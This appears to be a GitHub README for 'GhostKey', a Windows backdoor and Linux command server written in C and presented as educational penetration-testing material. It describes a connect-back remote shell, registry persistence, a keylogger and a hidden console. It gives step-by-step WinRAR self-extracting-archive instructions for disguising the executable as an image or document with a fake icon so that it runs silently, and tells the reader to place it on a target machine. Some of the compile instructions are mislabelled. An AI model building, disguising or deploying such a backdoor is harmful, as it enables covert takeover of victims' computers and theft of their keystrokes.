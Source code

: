 # GhostKey-Backdoor and Server for Ethical Hacking and Penetration Testing

## Overview

This repository contains a **backdoor program** and its corresponding **server** implementation, designed for ethical hacking purposes. These programs demonstrate how attackers establish connections, execute commands, and persist on a target system audit.

> **Disclaimer:** This project is strictly for educational purposes. Unauthorized use of this code is illegal. The author is not responsible for any misuse.

>**Compatibility:** The backdoor program is designed to work on **Windows 10** machines,while the server can run on a **Linux** system. The backdoor uses Windows-specific libraries,including **ws2_32** and **wininet**


### Development Plan 
1. Establish a connection with the server.
2. Implement a shell function to handle incoming commands.
3. Ensure automatic startup after a system reboot.
4. Enable the backdoor to spawn additional programs.
5. Add directory navigation capabilities.
6. Integrate a keylogger to log user inputs.
7. Run the backdoor silently in the background without showing a console window.
## Features

### Backdoor (`backdoor.c`)
- **Server Connection:** Establishes a persistent connection to the attacker's server.
- **Command Execution:** Receives and executes shell commands from the server.
- **Persistence Mechanism:** Modifies the registry to ensure automatic execution after system reboot.
- **Directory Navigation:** Allows changing directories on the target system.
- **Keylogger Integration:** Starts a keylogger to capture keystrokes.
- **Program Spawning:** Enables the spawning of additional programs.

### Server (`server.c`)
- **Connection Listener:** Listens for incoming connections from the backdoor.
- **Command Execution:** Sends shell commands to the backdoor and displays the responses.
- **Special Commands:**
  - `persist`: Activates the backdoor's persistence mechanism.
  - `keylog_start`: Starts the keylogger on the target machine.
  - `cd <directory>`: Changes the working directory on the target machine.
  - `q`: Terminates the connection with the target.

### Embedding the Backdoor in a File
The compiled **malware.exe** can be hidden within an image file or any other file type using **WinRAR**:

1. Place the backdoor.exe and an image file (e.g., image.jpg) in the same directory.
2. Compress both files together using WinRAR.
3. Right-click on the files and select "Add to archive...".
4. In the archive settings > General tab> choose **Create SFX archive** option.
5. now in **Advanced tab** click on **SFX options...**.
6. In **Setup tab**, Add the files(the malware.exe and the file you selected for embedding) in the **Run after extraction** box.
7. In **Modes tab**>**Silent Mode**>Select Hide all.
8. In **Text and Icon**, Browse the ico file (false logo).
9. In **Update tab**, under Updae mode section, select **Extract and update file** . Under overwrite mode, choose **Overwrite all files**.
10. Save the Changes.


## Installation and Setup

### Prerequisites
- **Development Environment:**  
  - GCC (for compilation)
  - Linux for the server and Windows for the backdoor
- **Networking Knowledge:** Basic understanding of socket programming.
- **Environment Setup:** Ensure you have an attacker machine (Linux) and a target machine (Windows-Windows 10 advisable).

### Compiling the Programs
- **Compile the backdoor:**
#### Backdoor
1. Update the following placeholders in `backdoor.c` and `server.c` with the attacker's IP and setup PORT:
  **for backdoor.c**
    ```c
   ServIP = "<attacker-IP>";
   ServPort = <PORT_No>;
  **for server.c**
  ```c
server_address.sin_addr.s_addr=inet_addr("<attacker-IP machine>");
		server_address.sin_port=htons(<PORT_No>);
```
2. Compile the backdoor on Windows 10 using the following command using:
   **for backdoor.c**
```c
   gcc server.c -o server
```
**for server.c**
```c
i686-w64-mingw32-gcc -o malware.exe backdoor.c -lwsock32 -lwininet
```
4. This command will create a Windows executable backdoor.exe that can run on a **Windows 10** system.

5. Transfer the **malware.exe** to the target **Windows 10** machine and run it.

### Disguising your malware
* You may choose any image or any file ,example excel,pdf,word etc.
* Download an ico file for logo of archieved .exe file. 

 ## About Me
This project is my first attempt at malware development, created purely for learning purposes. I developed this project with the help of online resources and tutorials, including YouTube videos (Special thanks! to Vabs Tutorials) , to gain a deeper understanding of how backdoors and servers function in the context of penetration testing.

As a beginner in malware development, this project reflects my initial exploration into this domain and showcases fundamental concepts like socket programming, persistence mechanisms, and keylogging.

